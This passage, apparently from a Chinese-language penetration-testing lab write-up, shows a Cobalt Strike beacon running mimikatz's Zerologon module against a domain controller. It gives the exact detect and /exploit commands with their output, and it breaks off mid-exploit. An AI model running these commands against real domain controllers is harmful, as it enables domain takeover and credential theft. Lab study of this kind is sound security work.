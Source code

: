 
```


|  | beacon> mimikatz lsadump::zerologon /target:DC.de1ay.com /account:DC$ |
| --- | --- |
|  | [*] Tasked beacon to run mimikatz's lsadump::zerologon /target:DC.de1ay.com /account:DC$ command |
|  | [+] host called home, sent: 750708 bytes |
|  | [+] received output: |
|  | Remote   : DC.de1ay.com |
|  | ProtSeq  : ncacn_ip_tcp |
|  | AuthnSvc : NONE |
|  | NULL Sess: no |
|  |  |
|  | Target : DC.de1ay.com |
|  | Account: DC$ |
|  | Type   : 6 (Server) |
|  | Mode   : detect |
|  |  |
|  | Trying to 'authenticate'... |
|  | ================================================================ |
|  |  |
|  | NetrServerAuthenticate2: 0x00000000 |
|  |  |
|  | * Authentication: OK -- vulnerable |


```

看到存在`zerologon`漏洞


### 3）漏洞利用



```


|  | mimikatz lsadump::zerologon /target:DC.de1ay.com /account:DC$ /exploit |
| --- | --- |


```


```


|  | [*] Tasked beacon to run mimikatz's lsadump::zerologon /target:DC.de1ay.com /account:DC$ /exploit command |
| --- | --- |
|  | [+] host called home, sent: 750708 bytes |
|  | [+] received output: |
|  | Remote   : DC.de1ay.com |
|  | ProtSeq  : ncacn_ip_tcp |
|  | AuthnSvc : NONE |
|  | NULL Sess: no |
|  |  |
|  | Target : DC.de1ay.com |
|  | Account: DC$ |
|  | Type   : 6 (Server) |
|  | Mode   : exploit |
|  |  |
|  | Trying to 'authenticate'... |
|  | ============================================================================================== |
```
